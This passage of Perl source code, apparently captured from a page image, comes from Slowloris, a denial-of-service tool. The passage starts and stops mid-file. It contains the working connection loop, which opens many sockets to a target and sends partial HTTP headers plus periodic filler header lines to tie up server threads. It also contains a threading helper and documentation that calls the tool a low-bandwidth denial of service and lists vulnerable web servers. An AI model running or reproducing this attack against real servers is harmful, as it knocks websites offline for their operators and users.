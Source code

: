 doconnections( $connections, $usemultithreading );     } }  sub doconnections {     my ( $num, $usemultithreading ) = @_;     my ( @first, @sock, @working );     my $failedconnections = 0;     $working[$_] = 0 foreach ( 1 .. $num );    #initializing     $first[$_]   = 0 foreach ( 1 .. $num );    #initializing     while (1) {         $failedconnections = 0;         print "\t\tBuilding sockets.\n";         foreach my $z ( 1 .. $num ) {             if ( $working[$z] == 0 ) {                 if ($ssl) {                     if (                         $sock[$z] = new IO::Socket::SSL(                             PeerAddr => "$host",                             PeerPort => "$port",                             Timeout  => "$tcpto",                             Proto    => "tcp",                         )                       )                     {                         $working[$z] = 1;                     }                     else {                         $working[$z] = 0;                     }                 }                 else {                     if (                         $sock[$z] = new IO::Socket::INET(                             PeerAddr => "$host",                             PeerPort => "$port",                             Timeout  => "$tcpto",                             Proto    => "tcp",                         )                       )                     {                         $working[$z] = 1;                         $packetcount = $packetcount + 3;  #SYN, SYN+ACK, ACK                     }                     else {                         $working[$z] = 0;                     }                 }                 if ( $working[$z] == 1 ) {                     if ($cache) {                         $rand = "?" . int( rand(99999999999999) );                     }                     else {                         $rand = "";                     }                     my $primarypayload =                         "$method /$rand HTTP/1.1\r\n"                       . "Host: $sendhost\r\n"                       . "User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.503l3; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; MSOffice 12)\r\n"                       . "Content-Length: 42\r\n";                     my $handle = $sock[$z];                     if ($handle) {                         print $handle "$primarypayload";                         if ( $SIG{__WARN__} ) {                             $working[$z] = 0;                             close $handle;                             $failed++;                             $failedconnections++;                         }                         else {                             $packetcount++;                             $working[$z] = 1;                         }                     }                     else {                         $working[$z] = 0;                         $failed++;                         $failedconnections++;                     }                 }                 else {                     $working[$z] = 0;                     $failed++;                     $failedconnections++;                 }             }         }         print "\t\tSending data.\n";         foreach my $z ( 1 .. $num ) {             if ( $working[$z] == 1 ) {                 if ( $sock[$z] ) {                     my $handle = $sock[$z];                     if ( print $handle "X-a: b\r\n" ) {                         $working[$z] = 1;                         $packetcount++;                     }                     else {                         $working[$z] = 0;                         #debugging info                         $failed++;                         $failedconnections++;                     }                 }                 else {                     $working[$z] = 0;                     #debugging info                     $failed++;                     $failedconnections++;                 }             }         }         print "Current stats:\tSlowloris has now sent $packetcount packets successfully.\nThis thread now sleeping for $timeout seconds...\n\n";         sleep($timeout);     } }  sub domultithreading {     my ($num) = @_;     my @thrs;     my $i                    = 0;     my $connectionsperthread = 50;     while ( $i &lt; $num ) {         $thrs[$i] =           threads->create( \&amp;doconnections, $connectionsperthread, 1 );         $i += $connectionsperthread;     }     my @threadslist = threads->list();     while ( $#threadslist > 0 ) {         $failed = 0;     } }  __END__  =head1 TITLE  Slowloris  =head1 VERSION  Version 0.7 Beta  =head1 DATE  06/17/2009  =head1 AUTHOR  RSnake &lt;h@ckers.org> with threading from John Kinsella  =head1 ABSTRACT  Slowloris both helps identify the timeout windows of a HTTP server or Proxy server, can bypass httpready protection and ultimately performs a fairly low bandwidth denial of service.  It has the added benefit of allowing the server to come back at any time (once the program is killed), and not spamming the logs excessively.  It also keeps the load nice and low on the target server, so other vital processes don't die unexpectedly, or cause alarm to anyone who is logged into the server for other reasons.  =head1 AFFECTS  Apache 1.x, Apache 2.x, dhttpd, GoAhead WebServer, others...?  =head1 NOT AFFECTED  IIS6.0, IIS7.0, lighttpd, nginx, Cherokee, Squid, others...?  =head1 DESCRIPTION  Slowloris is designed so that a single machine (probably a Linux/UNIX machine since Windows appears to limit how many sockets you can have open at any given time) can easily tie up a typical web server or proxy server by locking up all of it's threads as they patiently wait for more data.  Some servers may have a smaller tolerance for timeouts than others, but Slowloris can compensate for that by customizing the timeouts.  There is an added function to help you get